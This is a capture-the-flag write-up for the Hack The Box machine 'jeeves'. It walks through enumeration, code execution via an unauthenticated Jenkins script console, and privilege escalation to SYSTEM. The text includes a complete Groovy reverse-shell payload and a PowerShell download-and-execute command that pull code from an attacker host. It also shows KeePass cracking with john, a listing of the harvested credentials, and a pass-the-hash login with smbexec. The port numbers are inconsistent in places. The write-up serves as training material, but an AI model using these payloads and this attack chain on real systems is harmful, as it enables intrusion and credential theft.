



# jeeves

| Hostname   | Difficulty |
| ---        | ---        |
| jeeves     | medium     |

Machine IP: 10.10.10.63 :

```bash
TARGET=10.10.10.63       # jeeves IP address
ATTACKER=10.10.14.8      # attacker IP
```

## Initial Reconnaissance

### Ports and services


Start by scanning open ports :

```bash
nmap -sT -Pn $TARGET -p - --open
```

Result :

```text
Nmap scan report for 10.10.10.63
Host is up (0.020s latency).
Not shown: 65531 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
445/tcp   open  microsoft-ds
50000/tcp open  ibm-db2

Nmap done: 1 IP address (1 host up) scanned in 107.31 seconds
```

Enumerate these services, and possible vulnerabilities :

```bash
nmap -sT -sV -sC -A -Pn $TARGET -p 80,135,445,50000
```

Result :

```text
Nmap scan report for 10.10.10.63
Host is up (0.014s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:     
|_  Potentially risky methods: TRACE
|_http-title: Ask Jeeves
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2008 R2 (91%), Microsoft Windows 10 1511 - 1607 (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), FreeBSD 6.2-RELEASE (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%), Microsoft Windows Server 2016 (85%), Microsoft Windows 7 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   311:
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-04-18T02:22:11
|_  start_date: 2023-04-18T02:14:26
|_clock-skew: mean: 5h00m00s, deviation: 0s, median: 4h59m59s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

TRACEROUTE (using proto 1/icmp)
HOP RTT      ADDRESS
1   12.90 ms 10.10.14.1
2   13.50 ms 10.10.10.63

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.16 seconds
```

There are 2 HTTP web services running on port 80 and 50000. Explore the 2 with a web browser :

```bash
firefox http://$TARGET
```


This looks like a search engine

```bash
firefox http://$TARGET:50000
```



Nothing in this place, but there cann be somthing hidden deeper...

### Information founds

| port      | service       | Software/version |
| ---       | ---           | ---              |
| 80/tcp    | http          | Microsoft IIS httpd 10.0 |
| 135/tcp   | RPC           |                  |
| 445/tcp   | microsoft-ds  |                  |
| 50000/tcp | http          | Jetty 9.4.z-SNAPSHOT |

## Initial access

### Enumerate deeper

Enumerate deeper the web service available on port 50000 :

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://$TARGET:50000/ -t 30
```

```text
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.63:50000/
[+] Method:                  GET
[+] Threads:                 30
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/04/27 22:31:21 Starting gobuster in directory enumeration mode
===============================================================
/askjeeves            (Status: 302) [Size: 0] [--> http://10.10.10.63:50000/askjeeves/]
Progress: 219838 / 220561 (99.67%)
===============================================================
2023/04/27 22:33:09 Finished
===============================================================
```

A jenkins instance is available at : [http://10.10.10.63:50000/askjeeves/](http://10.10.10.63:50000/askjeeves/)


There is no authentication required, this instance of Jenkins is fully open.

It's possible to create a job, but we will use the integrated script console to execute groovy :





Then insert a few Groovy commands to test the access :

```bash
println "whoami /all".execute().text
println "hostname".execute().text
```

Output :

```text
USER INFORMATION
----------------

User Name      SID                                        
============== ===========================================
jeeves\kohsuke S-1-5-21-2851396806-8246019-2289784878-1001


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled

ERROR: Unable to get user claims information.

Jeeves
```

The target hostname is "Jeeves", and the account running these commands is a local service account.

### Exploitation

In order to get a shell, we need a groovy payload.

go to [revshell.com](https://www.revshells.com/). Get a shel for :

- IP: 10.10.14.12 (attacker IP)
- Port: 9001 (or any interesting port)
- OS: Windows
- Langage: Groovy
- Shell: cmd

```groovy
String host="10.10.14.8";int port=4444;String cmd="cmd";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

On the attacker host, open a listener :

```shell
nc -lvnp 4444
```

On jeeves, execute the groovy revshell code.

Result:

```text
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.10.63.
Ncat: Connection from 10.10.10.63:49678.
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\.jenkins>
```

A shell is open on the target.

## Post-Exploitation

In order to get an improved shell, we will use [HTTP-revshell](https://github.com/3v4Si0N/HTTP-revshell)

After setting up the items, what we will do :

1. from the actual reverse-shell, download the 'HTTP-revshell' agent on updog (on attacker box, port 9000), and excute it
2. the agent will connect on 'HTTP-revshell' on attacker box on port 443 on a HTTPs channel

On the attacker box, start the listener/server to listen on port 443 (HTTPs) :

```shell
git clone https://github.com/3v4Si0N/HTTP-revshell.git
cd HTTP-revshell
virtualenv -p python3 .venv
. .venv/bin/activate
pip3 install -r requirements.txt
python3 ./server.py --ssl 0.0.0.0 443
```

Also, start `updog` to get an HTTP server (listening on port 9000):

```shell
cd HTTP-revshell
updog
```

On jeeves shell, download HTTP-revshell client and execute it :

```shell
powershell -ep bypass "iwr -uri http://10.10.14.8:9090/Invoke-WebRev.ps1 -Outfile Invoke-WebRev.ps1; Import-Module .\Invoke-WebRev.ps1 ; Invoke-WebRev -ip 10.10.14.8 -port 443 -ssl"
```

and we get a shell (powershell) :

```text
██╗  ██╗████████╗████████╗██████╗   ██╗███████╗    ██████╗ ███████╗██╗   ██╗███████╗██╗  ██╗███████╗██╗     ██╗
██║  ██║╚══██╔══╝╚══██╔══╝██╔══██╗ ██╔╝██╔════╝    ██╔══██╗██╔════╝██║   ██║██╔════╝██║  ██║██╔════╝██║     ██║
███████║   ██║      ██║   ██████╔╝██╔╝ ███████╗    ██████╔╝█████╗  ██║   ██║███████╗███████║█████╗  ██║     ██║
██╔══██║   ██║      ██║   ██╔═══╝██╔╝  ╚════██║    ██╔══██╗██╔══╝  ╚██╗ ██╔╝╚════██║██╔══██║██╔══╝  ██║     ██║
██║  ██║   ██║      ██║   ██║   ██╔╝   ███████║    ██║  ██║███████╗ ╚████╔╝ ███████║██║  ██║███████╗███████╗███████╗
╚═╝  ╚═╝   ╚═╝      ╚═╝   ╚═╝   ╚═╝    ╚══════╝    ╚═╝  ╚═╝╚══════╝  ╚═══╝  ╚══════╝╚═╝  ╚═╝╚══════╝╚══════╝╚══════╝
                                                                                                         By: 3v4Si0N
    
Wed Apr 19 23:22:55 2023 Server UP - 0.0.0.0:443
[!] New Connection, please press ENTER!

PS C:\Users\Administrator\.jenkins> 
```

### Host Reconnaissance

Start by checking the known users :

```batch
C:\Users\Administrator\.jenkins> net users
```

```text
User accounts for \\JEEVES

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
kohsuke                  
The command completed successfully.
```

I need to move from the current local service account `jeeves\kohsuke` to local Administrator account.

The current directory is `C:\Users\Administrator\.jenkins`, in the `Administrator` profile folder, but we cannot go up to `C:\Users\Administrator\` : `access denied`.

So, we enumerate the current account profile folder, and find :

```batch
C:\Users\Administrator\.jenkins> dir C:\Users\kohsuke\Documents
```

```text
    Directory: C:\Users\kohsuke\Documents


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        9/18/2017   1:43 PM           2846 CEH.kdbx 
```

There is a keepass file `CEH.kdbx` in the Documents folder. This database could contain some credentials.

### Cracking the keepass file

Download this file to the attacker box for analisys:

```shell
download C:\users\kohsuke\Documents\CEH.kdbx CEH.kdbx
```

cracking the password of the keepass file :

https://www.thedutchhacker.com/how-to-crack-a-keepass-database-file/

```shell
keepass2john CEH.kdbx > CEH.txt
john --wordlist=/usr/share/wordlists/rockyou.txt CEH.txt
```

Result :

```text
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 6000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
moonshine1       (CEH)     
1g 0:00:00:17 DONE (2023-04-19 13:26) 0.05627g/s 3093p/s 3093c/s 3093C/s nana09..monyong
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

The `CEH.kdbx` passphrase is `moonshine1`.

Using keppassx on my host, I can open this database, and list all entries with credentials :

| Entry | username | passowrd |
| --- | --- | --- |
| Backup stuff      | ?             | aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 |
| Bank of America   | Michael321    | 12345 |
| DC Recovery PW    | administrator | S1TjAtJHKsugh9oC4VZl |
| EC-Council        | hackerman123  | pwndyouall! |
| It's a secret     | admin         | F7WhTrSFDKB6sxHU1cUn |
| Jenkins admin     | admin         | |
| Keys to the kingdom | bob         | lCEUnYPjNfIuPZSzOySA |
| Walmart.com       | anonymous     | Password |

The "Backup stuff" entry seems to match a NTLM hash. This could be a valid NTLM hash for one user.

## Privilege Escalation

The SMB Service (Port 445) is exposed on this server, so we can attempt to authenticate to the system using a password spray attack or a pass-the-hash attack.

`aad3b435b51404eeaad3b435b51404ee` means that LM is not being used (is the LM hash of empty string).

With this NTLM hash, I can try to login as Administrator on the target host :

It worked, I am connected as SYSTEM account :

```shell
smbexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 Administrator@$TARGET
```

```text
[!] Launching semi-interactive shell - Careful what you execute

C:\Windows\system32>whoami  
whoami
nt authority\system

C:\Windows\system32>
```

We get an administrative shell, this host is fully compromised.

### Administrator flag / proof

The flag should be located in Administrator profile folder :

```batch
dir c:\Users\Administrator\Desktop
```

```text
 Volume in drive C has no label.
 Volume Serial Number is BE50-B1C9

 Directory of c:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
11/03/2017  10:03 PM               282 desktop.ini
12/24/2017  03:51 AM                36 hm.txt
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               3 File(s)          1,115 bytes
               2 Dir(s)   7,518,650,368 bytes free
```

There is no flag file, but show th file `hm.txt` :

```batch
type C:\Users\Administrator\Desktop\hm.txt
```

```text
The flag is elsewhere.  Look deeper.
```

To look *deeper* in this directory, try all option of `dir` command, and display all files, including Alternate Data Stream (ADS) with "/R" flag:

```batch
dir /R c:\users\administrator\desktop
```

```text
 Volume in drive C has no label.
 Volume Serial Number is BE50-B1C9

 Directory of c:\users\administrator\desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
                                    34 hm.txt:root.txt:$DATA
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   7,518,556,160 bytes free
```

There is a data stream file ! Get it with:

```batch
more < C:\users\administrator\desktop\hm.txt:root.txt
```

This can also be done using powershell : see https://blog.ironmansoftware.com/daily-powershell/powershell-alternate-data-streams/
